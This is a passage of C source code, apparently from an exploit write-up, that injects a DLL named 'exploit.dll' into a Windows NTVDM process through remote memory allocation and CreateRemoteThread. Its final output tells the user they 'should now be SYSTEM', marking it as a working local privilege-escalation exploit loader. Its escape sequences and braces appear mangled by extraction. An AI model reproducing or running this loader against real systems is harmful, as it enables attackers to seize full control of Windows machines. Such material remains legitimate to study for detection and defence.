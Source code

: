 ```
        printf("Usage: %s NTVDM_PIDn");
        printf("Note: NTVDM can be launched by executing debug.exenn");
        return 1;
    `}`

    pid = atoi(argv[1]);

    if ((pHandle = OpenProcess(PROCESS_ALL_ACCESS, false, pid)) == NULL) `{`
        printf("[X] OpenProcess() failed, make sure PID is for NTVDM processn");
        return 2;
    `}`
    else `{`
        printf("[.] OpenProcess() completed, handle: %dn", pHandle);
    `}`

    if ((destMem = VirtualAllocEx(pHandle, NULL, 4096, MEM_COMMIT, PAGE_EXECUTE_READWRITE)) == NULL) `{`
        printf("[X] VirtualAllocEx() failed to allocate memory in processn");
        return 3;
    `}`
    else `{`
        printf("[.] VirtualAllocEx() allocated memory at %pn", destMem);
    `}`

    if ((loadLibrary = (void *)GetProcAddress(LoadLibraryA("kernel32.dll"), "LoadLibraryA")) == NULL) `{`
        printf("[X] GetProcAddress() failed to find address of LoadLibrary()n");
        return 3;
    `}`
    else `{`
        printf("[.] Found LoadLibrary() at address %pn", loadLibrary);
    `}`

    GetCurrentDirectoryA(sizeof(currentDir), currentDir);
    sprintf_s(dllPath, sizeof(dllPath), "%s\%s", currentDir, "exploit.dll");

    if (WriteProcessMemory(pHandle, destMem, dllPath, strlen(dllPath), &amp;written) == 0) `{`
        printf("[X] WriteProcessMemory() failedn");
        return 3;
    `}`
    else `{`
        printf("[.] WriteProcessMemory() successfully wrote exploit DLL path to NTVDMn");
    `}`

    if (CreateRemoteThread(pHandle, NULL, NULL, (LPTHREAD_START_ROUTINE)loadLibrary, destMem, NULL, NULL) == NULL) `{`
        printf("[X] CreateRemoteThread() failed to load DLL in victim processn");
        return 3;
    `}`
    else `{`
        printf("[!!!] CreateRemoteThread() finished, exploit running...n");
    `}`

    printf("[!!!] If the exploit was successful, you should now be SYSTEM... enjoy :Dnn");
`}`
```

